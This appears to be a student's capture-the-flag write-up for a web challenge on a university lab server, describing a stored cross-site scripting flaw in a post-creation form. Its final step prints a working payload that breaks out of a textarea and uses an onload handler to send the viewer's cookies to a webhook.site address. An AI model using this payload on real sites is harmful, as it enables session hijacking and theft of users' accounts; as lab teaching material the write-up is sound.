 # Challenge `Go on and censor my posts` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to XSS

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23253`, on the create a post form

- Impact: What results of exploiting this vulnerability
  - Allows the user to run code through XSS, used to steal cookies

## Steps to reproduce

1. Access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23253`
2. The textarea for writing a post is vulnerable to an html injection
3. We can close the textarea and write arbitrary code to be executed
4. To get the flag, a post with the following content was created and sent for admin approval:

```html
</textarea> <body onload="url ='https://webhook.site/a3d25143-6e57-4354-b50c-c0c6fe1a3db9/?cookies=' + encodeURIComponent(document.cookie); fetch(url)";/> <textarea>

```

